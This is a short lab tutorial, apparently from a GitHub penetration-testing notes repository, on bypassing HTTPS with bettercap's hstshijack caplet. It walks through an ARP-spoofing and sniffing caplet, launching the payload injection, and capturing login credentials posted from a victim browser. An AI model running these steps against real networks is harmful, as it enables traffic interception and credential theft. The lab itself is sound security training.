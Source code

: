 
## Bypassing HTTPS using hstshijack
This module injects HTML & JS files with a payload that spoofs your targeted hostnames and communicates with bettercap, revealing all URLs that were discovered in the injected document.

When bettercap receives a callback with a new URL, it sends a HEAD request to learn whether the host in this URL sends HTTPS redirects, and keeps a log.

This is done so that bettercap can know whether it should MITM an SSL connection with a host, before the victim navigates to it.

**BetterCAP comes with hstshijack by default.**

Official hstshijack repo:
https://github.com/bettercap/caplets/blob/master/hstshijack/README.md

My custom hstshijack with spoof caplet:
https://github.com/Samsar4/Caplets

**Note:** This method in default payloads doesn't work on a few popular websites like Twitter or Facebook, since the modern browsers have a security measure hardcoded on for those websites. But it works in a majority websites that is using HTTPS.

1. Create a caplet called **spoof.cap**

2. Add those parameters (remember to put the target IP address on arp.spoof.targets):
```sh
net.probe on
set arp.spoof.fullduplex true 
set arp.spoof.targets <TARGET IP ADDRESS > 
arp.spoof on
set net.sniff.local true
net.sniff on
```

3. In the same folder that you created the caplet, start the **BetterCAP** using the spoof.cap **Caplet** that you created:<br><br>
`bettercap -iface eth0 -caplet spoof.cap`

4. On BetterCAP, launch the hstshijack:<br><br>
`hstshijack/hstshijack`<br><br>
![hstshijack](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/02af023f2abc73cbda37c644eaf1128f222a612a/hstshijack.png)

5. Switchback to the Windows and open the browser.

6. On this lab we will test the popular **StackOverflow**, type the URL: stackoverflow.com and hit enter.<br><br>
![hstshijack2](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/4126125b5858854a68d97552a12041f2e7ad5122/hstshijack-3.png)
As you can see the HTTPS is sucessfully bypassed and the entire website is loaded.

7. Try to login in with fake account to test it.

8. After you submited the fake credentials, switch back to BetterCAP on Kali Linux and try to find the **method POST** sniffed from BetterCAP, you will find the credentials typed, as shown below: <br><br>
![hstshijack3](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/02af023f2abc73cbda37c644eaf1128f222a612a/hstshijack-2.png)
